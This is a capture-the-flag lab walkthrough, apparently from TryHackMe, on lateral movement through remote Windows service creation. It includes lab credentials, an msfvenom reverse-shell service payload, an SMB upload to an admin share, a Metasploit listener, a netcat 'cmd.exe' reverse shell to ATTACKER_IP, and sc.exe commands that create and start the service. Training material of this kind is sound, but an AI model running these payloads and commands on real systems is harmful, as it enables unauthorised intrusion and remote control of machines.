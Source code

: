 # Spawning Processes Remotely Walkthrough

Connect to THMJMP2 using credentials from http://distributor.za.tryhackme.com/creds  

<pre>ssh za\\grace.brooks@thmjmp2.za.tryhackme.com</pre>

THM has provided credentials with administrative access:  
- ZA.TRYHACKME.COM\t1_leonard.summers  
- EZpass4ever  

If we try to run a reverse shell using `sc.exe` command and `net user`, we notice that the reverse shell disconnects after execution.  

Service executables are different to .exe files, and therefore non-service executables will end up being killed by the service manager almost immediately.  

msfvenom supports the `exe-service` format, which will encapsulate any payload we like inside a fully functional service executable, preventing it from being killed.  

- Create payload using msfvenom (Attack Box)
<pre>msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKERIP LPORT=4444 -o myservice.exe</pre>

- Upload payload to THMIIS using t1_leonard.summers (Attack Box)
<pre>smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/'</pre>

- Setup listener on attacker machine to receive reverse shell once `myservice.exe` has been executed

<pre>msfconsole  
use exploit/multi/handler  
exploit(multi/handler) > set LHOST lateralmovement 
exploit(multi/handler) > set LPORT 4444
exploit(multi/handler) > set payload windows/shell/reverse_tcp
exploit(multi/handler) > exploit  

Started reverse TCP handler on 10.10.10.16:4444</pre>

- Spawn a reverse shell with t1_leonard.summers access (THMJMP2)
<pre>runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "C:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"</pre>

- `runas` with `/netonly` it will not check if the provided credentials are valid
- Receive reverse shell from `runas` command using `nc` 
<pre>nc -lvp 4443</pre>  

- Create a new service by using `sc.exe` (THMJMP2 command prompt as t1_leonard.summers from nc reverse shell)
<pre>sc.exe \\thmiis.za.tryhackme.com create THMservice-3249 binPath= "%windir%\myservice.exe" start= auto  
sc.exe \\thmiis.za.tryhackme.com start THMservice-3249</pre>

![Alt text](<../../Images/Spawn Process Remotely Diagram.jpg>)